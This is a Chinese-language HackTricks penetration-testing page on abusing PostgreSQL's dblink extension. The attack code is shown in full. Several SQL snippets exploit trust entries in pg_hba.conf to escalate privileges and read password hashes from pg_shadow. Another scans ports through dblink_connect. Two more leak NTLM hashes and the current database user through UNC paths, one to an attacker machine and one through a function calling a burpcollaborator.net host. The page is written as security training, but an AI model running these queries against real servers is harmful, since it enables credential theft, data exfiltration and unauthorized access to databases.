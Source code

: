 # 网络 - 权限提升、端口扫描和 NTLM 挑战响应泄露

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

**在原始论文中找到** [**有关这些攻击的更多信息**](http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.txt)。

自 **PostgreSQL 9.1** 以来，安装额外模块变得简单。可以使用 [`CREATE EXTENSION`](https://www.postgresql.org/docs/current/sql-createextension.html) 安装 [注册扩展，如 `dblink`](https://www.postgresql.org/docs/current/contrib.html)：
```sql
CREATE EXTENSION dblink;
```
一旦你加载了 dblink，你就可以执行一些有趣的技巧：

### 权限提升

文件 `pg_hba.conf` 可能配置不当 **允许从 localhost 以任何用户身份连接**，而无需知道密码。该文件通常可以在 `/etc/postgresql/12/main/pg_hba.conf` 中找到，错误的配置看起来像：
```
local    all    all    trust
```
_请注意，这种配置通常用于在管理员忘记数据库用户密码时修改密码，因此有时您可能会找到它。_\
&#xNAN;_&#x4E;请注意，文件 pg\_hba.conf 仅可由 postgres 用户和组读取，并且仅可由 postgres 用户写入。_

这种情况是 **有用的，如果** 你 **已经** 在受害者的 **shell** 中，因为它将允许你连接到 postgresql 数据库。

另一个可能的错误配置类似于以下内容：
```
host    all     all     127.0.0.1/32    trust
```
因为这将允许来自本地主机的每个人以任何用户身份连接到数据库。\
在这种情况下，如果**`dblink`**函数**正常工作**，您可以通过连接到已经建立的连接来**提升权限**，并访问不应该能够访问的数据：
```sql
SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'SELECT datname FROM pg_database')
RETURNS (result TEXT);

SELECT * FROM dblink('host=127.0.0.1
user=postgres
dbname=postgres',
'select usename, passwd from pg_shadow')
RETURNS (result1 TEXT, result2 TEXT);
```
### Port Scanning

通过滥用 `dblink_connect`，你也可以**搜索开放端口**。如果该**函数不起作用，你应该尝试使用 `dblink_connect_u()`，因为文档说明 `dblink_connect_u()` 与 `dblink_connect()` 相同，唯一的区别是它允许非超级用户使用任何认证方法进行连接。
```sql
SELECT * FROM dblink_connect('host=216.58.212.238
port=443
user=name
password=secret
dbname=abc
connect_timeout=10');
//Different response
// Port closed
RROR:  could not establish connection
DETAIL:  could not connect to server: Connection refused
Is the server running on host "127.0.0.1" and accepting
TCP/IP connections on port 4444?

// Port Filtered/Timeout
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTP server
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTPS server
ERROR:  could not establish connection
DETAIL:  received invalid response to SSL negotiation:
```
注意，在能够使用 `dblink_connect` 或 `dblink_connect_u` 之前，您可能需要执行：
```
CREATE extension dblink;
```
### UNC 路径 - NTLM 哈希泄露
```sql
-- can be used to leak hashes to Responder/equivalent
CREATE TABLE test();
COPY test FROM E'\\\\attacker-machine\\footestbar.txt';
```

```sql
-- to extract the value of user and send it to Burp Collaborator
CREATE TABLE test(retval text);
CREATE OR REPLACE FUNCTION testfunc() RETURNS VOID AS $$
DECLARE sqlstring TEXT;
DECLARE userval TEXT;
BEGIN
SELECT INTO userval (SELECT user);
sqlstring := E'COPY test(retval) FROM E\'\\\\\\\\'||userval||E'.xxxx.burpcollaborator.net\\\\test.txt\'';
EXECUTE sqlstring;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT testfunc();
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
